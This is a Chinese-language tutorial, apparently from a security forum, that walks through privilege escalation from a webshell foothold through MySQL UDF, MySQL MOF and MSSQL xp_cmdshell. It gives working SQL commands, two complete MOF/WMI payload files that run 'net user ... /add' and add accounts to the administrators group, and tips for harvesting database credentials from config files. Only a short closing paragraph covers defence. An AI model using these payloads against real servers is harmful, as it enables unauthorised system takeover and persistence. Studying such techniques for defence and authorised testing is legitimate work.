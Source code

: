 **前言**  
在入侵过程中，通过各种办法和漏洞，提高攻击者在服务器中的权限，从而以便控制全局的过程就叫做提权。例如：windows系统---&gt;user(guest)---&gt;system;Linux系统---&gt;user---&gt;root  
在web渗透中，从最开始的webshell获取的权限可能仅仅是中间件的权限，可执行的操作控制有限，攻击者往往会通过提权的方式来提升已有的权限，从而执行更多的操作。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-57dc63608eb0f06ae5b695d59526629dd8482ff6.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-57dc63608eb0f06ae5b695d59526629dd8482ff6.png)  
**提权的方法**  
一、系统漏洞提权  
（1）获取操作系统类型以及版本号  
（2）根据获取的系统版本号在互联网搜索exp  
（3）尝试利用exp获取权限  
（4）尝试反弹shell  
二、数据库提权  
（1）mysql数据库——udf提权  
（2）数据库提权——mof提权  
（3）数据库提权——反弹端口提权  
（4）数据库提权——启动项提权  
三、第三方软件/服务提权  
（1）通过第三方软件漏洞进行提权  
（2）通过服务端口、服务协议漏洞进行提权  
**数据库提权**  
数据库提权就是利用执行数据库语句、利用数据库函数等方式提升服务器用户的权限。例如在 mysql 数据操作中，如果需要执行cmd命令，就会调用UDF这个dll文件，我们就是利用这个漏洞，进行提权操作。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4eeb64140bcee6d96886d2b105d8b1380d802d7a.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4eeb64140bcee6d96886d2b105d8b1380d802d7a.png)  
**数据库提权思路**  
（1）如果已经上传webshell，可以从中寻找获取数据库的连接文件（目的获得数据库密码）  
\--通过读取一些数据库配置文件  
数据库配置文件：命令规则（data、sql、inc、config、conn、datab ase等）  
\--通过mysql数据库的user表  
数据库安装文件：安装目录下data/mysql/user.myd  
frm:描述表结构文件，字段长度，myi：索引信息，myd：数据库信息文件，存储数据信息  
（2）获取当前mysql的一个数据库连接信息，通常包含地址、端口、账号、密码、库名等五个信息  
（3）数据库具有create，insert，delete权限  
（4）寻找存在可读写的文件目录一般是回收站（windows）或tmp（linux） ，用于上传提权工具或者写入脚本

**MYSQL数据库---UDF提权**  
udf(user-defined-function)是mysql得一个拓展接口，也称为用户自定义函数，用户通过自定义函数来实现在mysql中无法方便实现得功能当攻击者已知root账号和密码，就可以利用root权限，创建带有调用cmd函数的“udf.dll”。当我们把udf.dll导出指定文件夹引入mysql时候，其中的调用函数拿出来当作mysql函数来使用。  
**提权思路：**

```php
(1)mysql版本小于1版本，udf.dll文件在windows2003下放在：c:\windows\system32。在windows2000放在：c:\winnt\system32
（2）mysql版本大于5.1版本，udf.dll文件必须放置在mysql安装目录下的lib\plugin。但是大于5.1版本的时候没有plugin这个文件夹，需要自己创建。
（3）利用udf文件加载函数执行命令
create function cmdshell returns string soname 'udf.dll';  //returns string soname ‘导出的DLL路径’；
select cmdshell('net user ndsec ndsecpw /add');
select cmdshell('net localgroup administrators ndsec /add');
drop function cmdshell;
```

用蚁剑连接一句话木马，执行蚁剑的数据库功能模块（可以执行SQL语句），查看版本（5.5.53&gt;5.1），udf.dll文件必须放置在mysql安装目录下的lib\\plugin。但是大于5.1版本的时候没有plugin这个文件夹，需要自己创建。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0ba9d4d59a54be07dc897b84c9c78faf3a6fc97e.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0ba9d4d59a54be07dc897b84c9c78faf3a6fc97e.png)  
在c:/phpStudy/MySQL/lib/目录下创建一个文件夹plugin，然后上传我们的udf.dll文件  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-810af83c329204d5021e572a290cb2788d481171.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-810af83c329204d5021e572a290cb2788d481171.png)  
把udf.dll导出指定文件夹引入mysql，调用cmd函数的”udf.dll”  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-96a0d3b764650e3989d23e0eec12286be83f5f5a.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-96a0d3b764650e3989d23e0eec12286be83f5f5a.png)  
查看当前用户，当前并无ndsec用户  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4a75bab681df9586202669e68e0c9b8801a6cbc3.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4a75bab681df9586202669e68e0c9b8801a6cbc3.png)  
调用cmd创建用户，用户名为ndsec，密码为ndsecpw  
`net user ndsec ndsecpw /add`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-146497184c74f089d462fb1f8b3a3c84259d537f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-146497184c74f089d462fb1f8b3a3c84259d537f.png)

添加用户ndsec进系统用户组  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-094bbc756e5dfc7078787434df5c0777610282a3.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-094bbc756e5dfc7078787434df5c0777610282a3.png)

`net user localgroup administrators ndsec /add`

删除cmd函数  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0489a7900e754a084c0a154b321ce8a34ba8b0d3.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0489a7900e754a084c0a154b321ce8a34ba8b0d3.png)  
查看当前系统用户，发现添加用户成功，提权成功  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3e947e42388cad6c19512bbf94c53d7920f3a4cf.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3e947e42388cad6c19512bbf94c53d7920f3a4cf.png)

**MYSQL数据库---MOF提权**  
mof文件是mysql数据库的扩展文件  
存放路径（C:/windows/system32/wbem/mof/nullevt.mof）,其作用是每隔5秒就会去监控进程创建和死亡。  
**提权条件**

```php
1、windows2003及以下
2、mysql启动身份具有权限去读写C:/windows/system32/wbem/mof/目录
3、secure-file-priv=不为null
```

**提权思路：**  
mof文件每5秒就会执行，而且是系统权限，我们可以通过load\_file将文件写入/wbme/mof，然后系统每5秒就会执行一次我们上传的mof，mof当中是一段vbs脚本，通过通过控制vbs脚本让系统执行命令，进行提权。  
**方法一：Net user查看当前系统用户**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1d3ccf099f58a274af2e87889298aaf36e86d00d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1d3ccf099f58a274af2e87889298aaf36e86d00d.png)  
上传一个mof文件，其中有我们生成用户的代码，系统每隔5秒执行一次  
And TargetInstance.Second = 5";控制，这里输入5就是每分钟的第五秒执行

```shell
pragma namespace("\\\\.\\root\\subs cription")
instance of EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name  = "filtP2";
Query = "Select * From InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};
instance of Actives criptEventConsumer as $Consumer
{
Name = "consPCSV2";
s criptingEngine = "Js cript";
s criptText =
"var WSH = new ActiveXO bject(\"Ws cript.Shell\")\nWSH.run(\"net.exe user admin admin /add\")";
};
instance of FilterToConsumerBinding
{
Consumer   = $Consumer;
Filter = $EventFilter;
};
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ca05b2cec618539a605b33dcff78579a63ef75d1.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ca05b2cec618539a605b33dcff78579a63ef75d1.png)

将其放入c:\\windows\\system32\\wbem\\mof目录下，mof文件每5秒就会执行，而且是系统权限  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a859567020fdc232c83c91faaae7cf045ad540dd.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a859567020fdc232c83c91faaae7cf045ad540dd.png)  
执行完mof文件后，相当于执行里面的脚本，从而自动生成新用户su1  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4fe3fbe9c788964d72b14a89fd43d88ec11b471a.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4fe3fbe9c788964d72b14a89fd43d88ec11b471a.png)  
再次上传新的mof文件，将刚刚生成的用户su1加入系统组

```shell
pragma namespace("\\\\.\\root\\subs cription")
instance of EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name  = "filtP2";
Query = "Select * From InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};
instance of Actives criptEventConsumer as $Consumer
{
Name = "consPCSV2";
s criptingEngine = "Js cript";
s criptText =
"var WSH = new ActiveXO bject(\"Ws cript.Shell\")\nWSH.run(\"net.exe localgroup administrators admin /add\")";
};
instance of FilterToConsumerBinding
{
Consumer   = $Consumer;
Filter = $EventFilter;
};
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2a885e3b7552a3845deb3c4176a1f7e1fe1b43bb.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2a885e3b7552a3845deb3c4176a1f7e1fe1b43bb.png)

查看用户组，发现新用户su1添加到管理组添加成功  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-84e9807788fd21a5366a1c551f3f22666d8e509b.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-84e9807788fd21a5366a1c551f3f22666d8e509b.png)  
**方法二：有些权限的数据库账号  
将生成普通用户admin的代码进行转码（字符转十进制/ascii）**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f39ced1d32fa418a194b1634562bc2dd21432b64.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f39ced1d32fa418a194b1634562bc2dd21432b64.png)  
将在线转码器的成果放到word里，将空格替换成逗号  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-606e788517abd37717bf9d95e8ddc26c7d3bbfa7.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-606e788517abd37717bf9d95e8ddc26c7d3bbfa7.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-aaef158c77850c9d6b8a16a19fb5b58de207baa7.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-aaef158c77850c9d6b8a16a19fb5b58de207baa7.png)  
同理将用户添加进系统组的代码转码  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-50f5a4de63cb34260e3038c14a7cecf51dfca071.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-50f5a4de63cb34260e3038c14a7cecf51dfca071.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-32f143fba8dc2b1ec2674a58edd3bafa231130ae.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-32f143fba8dc2b1ec2674a58edd3bafa231130ae.png)  
查看当前用户，生成admin  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-717c28f11204949e0afad58f90bb84a8dbb659cf.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-717c28f11204949e0afad58f90bb84a8dbb659cf.png)

**MSSQL数据库提权**  
Mssql提权是利用扩展存储过程来执行系统命令，达到是自己权限提升的目的。  
**提权思路：**

```php
1、Mssql的服务没有降权,是以默认服务继承的权限来运行的
2、拥有该主机Mssql中的sa账号和密码
文件上传的大马webshell后可以连接mssql数据库
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1e932d9a47d47548e0a4cc8a5bd55294e7f0ae3c.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1e932d9a47d47548e0a4cc8a5bd55294e7f0ae3c.png)

Mysql账号的寻找方式，一般先寻找网站目录下的配置文件，如：conn.asp(x)/web.config，找到一个x ml网页，存放着数据库账户和密码，账号密码为：sa/sa  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-83365aa0e72815b3d79fdac99626a7a58961dce7.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-83365aa0e72815b3d79fdac99626a7a58961dce7.png)  
`sp_configure 'show advanced options',1；reconfigure开启xp_cmdshell服务`

以文本行的形式输出  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0fd189615eafe0a30ffdbdf4c560acf5d242aab2.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0fd189615eafe0a30ffdbdf4c560acf5d242aab2.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-710fc696d4281cb1587dd77bdcbe2a4b701008d0.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-710fc696d4281cb1587dd77bdcbe2a4b701008d0.png)  
`exec xp_cmdshell 'net user su su123 /add' 添加用户su`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6b1e8e7e1c1ed6e81988d9a96a394356962b34e6.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6b1e8e7e1c1ed6e81988d9a96a394356962b34e6.png)

`exec xp_cmdshell 'net localgroup administrators su /add' 将用户su加入系统组`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-aca57f599768b298debf143fd2ca4c25a4701ab2.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-aca57f599768b298debf143fd2ca4c25a4701ab2.png)

查看是否添加成功  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-47bfd4abfd728da2ff704eea434911401ab66cde.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-47bfd4abfd728da2ff704eea434911401ab66cde.png)

**总结**  
防御数据库提权可以限止数据库远程连接，给数据库账号密码设置的时候应该尽量复杂化，避免弱口令；不要给网站配置root或SA这种可以扩展存取的权限。必须给每个网站独立分配数据库帐户并限格控制好权限；安装Waf设备进行防御；安装数据库审计设备进行防御以及审计。